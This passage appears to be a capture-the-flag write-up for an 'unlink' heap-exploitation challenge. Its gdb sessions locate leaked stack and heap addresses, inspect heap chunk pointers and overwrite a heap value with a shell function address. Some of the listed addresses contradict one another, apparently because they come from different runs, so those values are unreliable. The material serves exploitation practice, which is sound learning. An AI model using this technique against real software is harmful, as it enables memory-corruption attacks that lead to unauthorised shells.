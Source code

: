 
```
(gdb) r
Starting program: /home/unlink/unlink
here is stack address leak: 0xff98e8d4
here is heap address leak: 0x901f410
now that you have leaks, get shell!                   
                  
Breakpoint 3, 0x080485e3 in main ()
```

Now continue, without overflowing.

```
(gdb) c
Continuing.
AAAA

Breakpoint 2, 0x0804852d in unlink ()
```


Heap address: `0x9252000`
```(gdb) info proc map
process 433077
Mapped address spaces:
		 ...
         0x901f000  0x9ce1000    0x21000        0x0 [heap]
		 ...
```


Let's find our AAAA (the `+ 1024` is for the `malloc(1024)` at the beginning of `main()`):

```
(gdb) x/20x 0x901f000 + 1024
0x901f400:      0x00000000      0x00000000      0x00000000      0x00000019
0x901f410:      0x0901f428      0x00000000      0x41414141      0x00000000
0x901f420:      0x00000000      0x00000019      0x0901f440      0x0901f410
0x901f430:      0x00000000      0x00000000      0x00000000      0x00000019
0x901f440:      0x00000000      0x0901f428      0x00000000      0x00000000

(gdb) x/1x 0x901f418
0x901f418:      0x41414141
```

FD_ADDESS = `0x901f428`
BK_ADDESS = `0x901f42C`

Let's replace AAAA with the shell_address:
```
(gdb) set *((int*)0x901f418)=0x80484eb
(gdb) x/1x 0x901f418
0x9252418:      0x080484eb
```
****
shell_address = `0x080484eb`
heap_shell_address =  `0x901f418`
